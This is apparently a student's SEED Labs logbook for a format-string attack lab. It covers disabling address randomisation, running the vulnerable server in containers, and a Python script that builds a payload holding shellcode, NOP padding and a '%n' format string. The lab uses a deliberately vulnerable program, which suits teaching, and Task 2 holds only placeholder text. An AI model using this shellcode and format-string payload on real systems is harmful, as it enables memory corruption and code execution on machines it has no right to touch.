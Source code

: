 # **Week 7**

## **SEED Labs**

### Format String Attack Lab

### **Setup**

* First we turned off the Linux Kernel countermeasures, such as Address Space Randomization, because it randomizes the starting address of heap and stack making it harder to guess and guessing addresses is one of the critical steps of the string-formatting attack, we disabled it with the command shown on the lab guide:

```shell
sudo sysctl -w kernel.randomize_va_space=0
```
![Randomization disabled](images/logbook6/randomizedisable.png)

* Then we run a makefile that will compile the program which we will exploit its vulnerability and install it into fmt-containers folder.

![installation](images/logbook6/setup1.png)

* Now we will run in the background a container.

![container](images/logbook6/setup2.png)

* Using the dockps command, we will obtain this list and get the second's shell,
note that by writing the first few characters will be sufficient as long they are unique among all the containers.

![dockps](images/logbook6/setup3.png)

## **Task 1**

* Sending a small message to the server

![task1](images/logbook6/task1.png)

* We will receive the following message in the target container's console

![task1test](images/logbook6/task1test.png)

* Using the following python script we will get an output file named badfile that we will input to the server, we want to cause a crash so the message with the smiley faces can't be printed.

#### build_string.py

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 20              # Changed start from 0 to 20
content[start:start + len(shellcode)] = shellcode

#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"
# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

* String concatenated with a "%n" causes the crash, nothing in this formation option is printed, only the number of characters written so far is stored in the pointed location.

* If an attacker wants to control the format string he will be able to write in to abritary positions of the memory.

### Result

![Task1done](images/logbook6/task1done.png)

* If we compare, this output with the one we did before we see that the message with the smilley faces wasn't printed meaning that the format program might have crashed.

## **Task 2**

placeholder text